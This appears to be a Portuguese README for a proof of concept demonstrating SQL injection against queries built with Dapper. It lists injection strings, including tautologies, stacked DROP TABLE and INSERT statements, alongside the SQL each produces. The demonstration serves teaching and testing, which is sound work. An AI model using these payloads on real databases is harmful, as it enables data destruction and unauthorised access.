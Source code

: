 # POC 2

- (back-end ) POC abordando conceito de SQL Injection utilizando o dapper.

By Guilherme Lima - guyga89@gmail.com

# TesteUm

- input: ' or ''='
- resultado: SELECT \* FROM Produto where descricao = '' or ''=''

- input: ' drop table Teste--
- resultado: SELECT \* FROM Produto where descricao = '' drop table Teste--'

- input: ' Insert into Teste (Descricao, DataCadastro) Values ('teste',getdate())--
- resultado: SELECT \* FROM Produto where descricao = '' Insert into Teste (Descricao, DataCadastro) Values ('teste',getdate())--'

# TesteDois

- 1;drop table Teste--
- 1;drop table Teste
- SELECT \* FROM Produto where id = 1;drop table Teste

- 1 or 1=1
- SELECT \* FROM Produto where id = 1 or 1=1

- 1; Insert into Teste (Descricao, DataCadastro) Values ('teste',getdate())--
- 1; Insert into Teste (Descricao, DataCadastro) Values ('teste',getdate())
- SELECT \* FROM Produto where id = 1; Insert into Teste (Descricao, DataCadastro) Values ('teste',getdate())

# TesteTres

- 1'; Insert into Teste (Descricao, DataCadastro) Values ('teste',getdate()) --

- '; Insert into Teste (Descricao, DataCadastro)

# TesteQuatro

- '; Insert into Teste (Descricao, DataCadastro) Values ('teste',getdate())--
- SELECT \* FROM Produto where Descricao like '%'; Insert into Teste (Descricao, DataCadastro) Values ('teste',getdate())--%'"

